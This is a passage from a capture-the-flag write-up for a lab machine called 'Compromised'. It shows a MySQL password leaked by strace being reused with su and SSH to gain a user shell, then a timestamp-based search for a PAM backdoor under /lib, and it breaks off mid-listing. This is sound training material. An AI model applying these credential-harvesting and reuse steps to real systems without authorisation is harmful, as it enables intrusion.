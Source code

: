     22227 03:11:09 execve("/usr/bin/mysql", ["mysql", "-u", "root", "--password=3*NLJE32I$Fe"], 0x55bc62467900 /* 21 vars */) = 0
    

### su

That password works for the user on the box, sysadmin:

    
    
    mysql@compromised:~$ su sysadmin -
    Password: 
    bash: cannot set terminal process group (-1): Inappropriate ioctl for device
    bash: no job control in this shell
    sysadmin@compromised:/var/lib/mysql$ 
    

And I can grab `user.txt`:

    
    
    sysadmin@compromised:~$ cat user.txt
    8fa1e68a************************
    

This password also works for SSH:

    
    
    root@kali# sshpass -p '3*NLJE32I$Fe' ssh sysadmin@10.10.10.207
    Last login: Wed Jan 20 18:37:38 2021 from 10.10.14.4
    sysadmin@compromised:~$
    

## Path #1: Shell as root via pam backdoor

### Enumeration

At this point it’s clear I’m trying to follow in the footsteps of the attacker
that already compromised this box. One place to look for persistence is in the
`/lib` directory. One trick (thanks to [Ippsec](https://twitter.com/ippsec)
for this one) for looking at a system is to print full timestamps, and look at
ones that have fractional seconds. `dpkg` (by default) only stores to the
second, and thus files with fractional seconds are all modified some other
way.

For example, on Compromised, there are almost 13,000 files in `/lib`:

    
    
    sysadmin@compromised:/var/www$ find /lib  -type f | wc -l
    12853
    sysadmin@compromised:/var/www$ find /lib  -type f -printf "%M %n %-6u %-6g %6s %TY-%Tm-%Td %TT %TZ %h/%f\n" | sort -k 6,7
    -rw-r--r-- 1 root   root      188 2014-02-24 18:19:14.0000000000 UTC /lib/systemd/system/rsync.service
    -rw-r--r-- 1 root   root   137256 2014-12-21 05:11:09.0000000000 UTC /lib/x86_64-linux-gnu/liblzo2.so.2.0.0
    -rw-r--r-- 1 root   root   249144 2016-02-07 10:11:02.0000000000 UTC /lib/x86_64-linux-gnu/libreadline.so.5.2
    -rw-r--r-- 1 root   root    34968 2016-02-07 10:11:02.0000000000 UTC /lib/x86_64-linux-gnu/libhistory.so.5.2
    -rw-r--r-- 1 root   root    10152 2016-08-11 12:52:18.0000000000 UTC /lib/x86_64-linux-gnu/libulockmgr.so.1.0.1
    -rw-r--r-- 1 root   root   243832 2016-08-11 12:52:18.0000000000 UTC /lib/x86_64-linux-gnu/libfuse.so.2.9.7
    -rw-r--r-- 1 root   root    22520 2016-10-05 16:47:51.0000000000 UTC /lib/x86_64-linux-gnu/libmnl.so.0.2.0
    -rw-r--r-- 1 root   root      190 2016-11-25 11:16:17.0000000000 UTC /lib/udev/rules.d/80-ifupdown.rules
    -rw-r--r-- 1 root   root      735 2016-11-25 11:16:17.0000000000 UTC /lib/systemd/system/networking.service